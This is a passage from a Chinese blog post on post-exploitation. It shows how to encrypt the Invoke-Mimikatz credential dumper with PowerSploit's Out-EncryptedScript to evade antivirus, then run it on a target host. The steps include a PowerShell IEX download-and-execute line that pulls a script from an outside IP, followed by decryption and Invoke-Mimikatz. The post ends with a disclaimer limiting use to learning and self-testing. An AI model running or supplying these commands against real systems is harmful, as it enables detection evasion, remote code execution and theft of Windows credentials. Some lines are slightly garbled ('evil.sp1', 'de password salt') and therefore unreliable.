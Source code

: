 ```powershell
poweshell.exe Import-Module .\Out-EncryptedScript.ps1
poweshell.exe Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password 密码 -Salt 随机数
#默认生成的文件是evil.ps1

-Password   设置加密的密钥
-Salt       随机数，防止被暴力破解
```

将加密生成的evil.sp1脚本放在目标机上，执行如下命令：

```powershell
#远程加载解密脚本
poweshell.exe 
IEX(New-Object Net.WebClient).DownloadString("http://1.1.1.32/PowerSploit/ScriptModification/Out-EncryptedScript.ps1")

[String] $cmd = Get-Content .\evil.ps1
Invoke-Expression $cmd
$decrypted = de password salt
Invoke-Expression $decrypted
Invoke-Mimikatz
```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200328204245945-1849115138.png)

### 0x07 参考链接

https://3gstudent.github.io/3gstudent.github.io/  
https://blog.csdn.net/dda6607/article/details/101262101  
https://blog.csdn.net/qq_36119192/article/details/83057161  
https://blog.csdn.net/qq_36119192/article/details/100634467

\----------------------------------------------------------------------------

作者：肖洋肖恩、

出处：https://www.cnblogs.com/-mo-/

\----------------------------------------------------------------------------

文中可能会存在纰漏，若发现请联系与我。

本文所有代码仅可用于站长自我检测与学习，如用于非法攻击一切后果自负。

标签: [内网渗透](https://www.cnblogs.com/-mo-/tag/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F/) , [总结](https://www.cnblogs.com/-mo-/tag/%E6%80%BB%E7%BB%93/) , [后渗透](https://www.cnblogs.com/-mo-/tag/%E5%90%8E%E6%B8%97%E9%80%8F/)

好文要顶 关注我 收藏该文 微信分享

[![](https://pic.cnblogs.com/face/1561366/20190712212612.png)](https://home.cnblogs.com/u/-mo-/)

[肖洋肖恩、](https://home.cnblogs.com/u/-mo-/)  
[粉丝 - 137](https://home.cnblogs.com/u/-mo-/followers/) [关注 - 13](https://home.cnblogs.com/u/-mo-/followees/)  

+加关注
